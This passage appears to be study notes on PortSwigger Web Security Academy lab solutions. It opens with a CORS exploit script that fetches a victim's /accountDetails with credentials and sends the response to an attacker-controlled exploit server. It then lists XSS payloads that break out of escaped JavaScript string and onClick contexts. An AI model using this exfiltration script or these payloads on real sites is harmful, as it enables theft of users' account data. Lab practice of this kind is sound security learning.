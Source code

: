```js
req.withCredentials = true;
req.send();
function reqListener() {
	fetch('https://exploit-0a9200830416b9a78023edee01d4008e.exploit-server.net/'+this.responseText);
};
</script>


<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0ace007d04bcb93880c3ee7000dc00a5.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();
function reqListener() {
	location='https://exploit-0a9200830416b9a78023edee01d4008e.exploit-server.net/'+this.responseText;
};
</script>
```

<hr>

##### Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

[https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#xss-using-html-quote-encapsulation](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#xss-using-html-quote-encapsulation)

```
< encoded
"" encoded
\'
\'-alert(1)//
\'+alert(1)//
\';alert(1)//
\";alert(1);//
```
##### Stored XSS into onClick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

```
<> "" encoded
\ ' escaped
&    &amp;
<    &lt;
>    &gt;
"    &quot;
'    &#x27;
http://payload2&#x27;-alert(1)-&#x27;
```
